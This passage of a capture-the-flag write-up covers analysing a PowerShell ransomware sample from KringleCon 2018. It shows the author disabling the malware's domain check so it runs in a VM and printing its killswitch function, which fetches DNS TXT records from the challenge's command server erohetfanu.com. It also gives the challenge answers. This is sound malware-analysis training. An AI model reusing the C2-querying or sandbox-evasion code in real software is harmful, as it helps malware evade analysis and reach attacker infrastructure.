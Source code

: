 In order to make the malware work in our VM, I modified the domain check to work if our domain is not `KRINGLECASTLE` by changing `-ne` to `-eq` in the second if condition:

* From: `(Get-WmiObject Win32_ComputerSystem).Domain -ne "KRINGLECASTLE")`
* To: `(Get-WmiObject Win32_ComputerSystem).Domain -eq "KRINGLECASTLE")`

``` powershell
if ($(netstat -ano | Select-String "127.0.0.1:8080").Length -ne 0 -or (Get-WmiObject Win32_ComputerSystem).Domain -eq "KRINGLECASTLE") {
    return
}
```

## 9.3 Stop the Malware
**The answer is `yippeekiyaa.aaay`.**

We are looking for a killswitch [similar to WannaCry](https://www.wired.com/2017/05/accidental-kill-switch-slowed-fridays-massive-ransomware-attack/). The WannaCry ransomware checked for a non-registered domain and if it got a response from that domain, it would not activate. In the malware source code we can check termination by looking for `return` instructions.

The following `return` check looks familiar:

``` powershell
function wanc {
    $S1 = "1f8b080000000000040093e76762129765e2e1e6640f6361e7e202000cdd5c5c10000000"
    if ($null -ne ((Resolve-DnsName -Name $(HexToASCII $(ByteToHex $(XOR $(ByteToHex $(GzipToBytes $(HexToByte $S1))) $(Resolve-DnsName -Server erohetfanu.com -Name 6B696C6C737769746368.erohetfanu.com -Type TXT).Strings))).ToString() -ErrorAction 0 -Server 8.8.8.8))) {
        return 
    }
```

Is this the killswitch? Yes, it is.

We can print the result by modifying the original script:

``` powershell
function wanc {
    $S1 = "1f8b080000000000040093e76762129765e2e1e6640f6361e7e202000cdd5c5c10000000"

    $(HexToASCII $(ByteToHex $(XOR $(ByteToHex $(GzipToBytes $(HexToByte $S1))) $(Resolve-DnsName -Server erohetfanu.com -Name 6B696C6C737769746368.erohetfanu.com -Type TXT).Strings))) | Out-String
    return
    ...
```

And we have the killswitch: `yippeekiyaa.aaay`.

----------

## 9.4 Recover Alabaster's Password
**The answer is `ED#ED#EED#EF#G#F#G#ABA#BA#B`.**

In this part, we have a memory dump and a file and we need to recover the key. See the talk [KringleCon 2018 - Chris Davis, Analyzing PowerShell Malware](https://www.youtube.com/watch?v=wd12XRq2DNk).
